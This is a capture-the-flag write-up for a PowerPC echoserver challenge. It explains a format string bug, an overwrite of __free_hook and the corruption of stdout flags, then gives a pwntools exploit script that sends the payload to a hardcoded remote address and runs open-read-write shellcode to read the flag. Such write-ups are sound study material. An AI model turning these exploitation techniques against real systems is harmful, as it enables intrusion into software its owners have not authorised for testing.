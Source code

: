 # echoserver

- A powerpc exploitation challenge.
- This is first time i worked on ppc exploit
- There is an obvious format string bug.
- But it directly calls exit with syscall. and the author clears all of the stack. so we can't look for the partial overwrites.
- The challenge binary is statically linked which means all of the address are known. To control the pc register. I first overwrite `__free_hook` to address of where i store my shellcode using format string bug. 
- Then i corrupted the stdout_struct->flags. Printf will do free when we corrupt stdout->flags. And we get pc control.
- The binary was stripped so to find `__free_hook` was a bit of labour work.
- 
	1. write shellcode using format string
	2. Overwrite `__free_hook` to call shellcode.
	3. Corrupt stdout->flags to cause free.
- (Qemu stack is executable)

# Exploit

```python
#!/usr/bin/python3
from pwn import *
from past.builtins import xrange
from time import sleep
import random
context.arch='powerpc'

#Exploit
if __name__ == '__main__':
#	io = process(['/usr/bin/qemu-ppc','-g','1275','./pwn22_patch'])
	io = remote('150.158.156.120',23333)

	#ORW
	'''
	mr r31, r9
	addi r3, r31, 0x500-4
	li r0, 5
	li r4, 0
	sc #Open flag
	li r0, 3
	mr r4, r24
	li r5, 100
	li r3, 0
	sc #Read
	li r0, 4
	mr r4, r24
	li r3, 1
	sc #Write
	'''

	B_fsb = b'A%83$hnA%84$hn%85$hn%86$hnA%87$hnA%88$hnA%89$hn%95c%90$hn'+\
		'%1176c%91$hn%2830c%92$hn%1138c%93$hn%9092c%94$hn%95$hn%96$hn'+\
		'%96c%97$hn%98$hn%31c%99$hnA%100$hn%32c%101$hn%2912c%102$n%103$n'+\
		'%104$hn%1912c%105$hn%5615c%106$hn%1285c%107$hn%5843c%108$hn%453c%109$hn'+\
		'%110$hn%17524c%111$hn%112$hn.'+p32(0x100a14ae)+\p32(0x100a148e)+p32(0x100a14a2)+\
		p32(0x100a14b2)+p32(0x100a1492)+p32(0x100a14a6)+p32(0x100a1486)+\
		p32(0x100a149a)+p32(0x100a1482)+p32(0x100a0eb4)+p32(0x100a0eb6)+\
		p32(0x100a1484)+p32(0x100a1490)+p32(0x100a14a4)+p32(0x100a149c)+\
		p32(0x100a14ac)+p32(0x100a1480)+p32(0x100a1488)+p32(0x100a1498)+\
		p32(0x100a148a)+p32(0x100a149e)+p32(0x100a14b0)+p32(0x100a147e)+p32(0x100a197a)+\
		p32(0x100a1978)+p32(0x100a147c)+p32(0x100a1494)+p32(0x100a14a8)+p32(0x100a1496)+\
		p32(0x100a14aa)

	io.sendafter('launch......\n',B_fsb)
	io.interactive()
```
